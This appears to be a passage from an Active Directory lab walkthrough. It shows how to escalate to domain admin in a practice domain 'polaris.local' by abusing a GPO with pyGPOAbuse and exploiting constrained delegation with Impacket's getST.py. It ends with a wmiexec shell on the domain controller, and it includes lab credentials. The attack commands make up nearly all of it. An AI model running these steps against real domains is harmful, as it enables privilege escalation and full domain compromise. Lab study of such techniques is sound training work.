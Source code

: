 ###### Attacker
1. Install pyGPOAbuse to abuse the GPO.
```bash
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m venv gpoenv
source gpoenv/bin/activate
cd pyGPOAbuse
python3 -m pip install -r requirements.txt
```

2. Exploit the GPO.
```bash
python3 pygpoabuse.py polaris.local/hank.schrader:'sHyangja@10' -gpo-id "<gpo-id>"
```
3. Then, we either wait for the policy to be updated and executed or force it using `gpupdate /force` on our DC.

#### Constrained Delegation
1. Find all the constrained delegations.
```bash
findDelegation.py POLARIS.LOCAL/jesse.pinkman:Wang0Tang0! -target-domain polaris.local
```
2. To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.
```bash
getST.py -spn 'CIFS/DC1.polaris.local' -impersonate Administrator -dc-ip '192.168.122.10' 'polaris.local/walter.white:Metho1o590oA$elry'
export KRB5CCNAME=Administrator.ccache
```

3. Obtain a shell whit the ticket received.
```bash
wmiexec.py -k -no-pass polaris.local/administrator@dc1.polaris.local
```






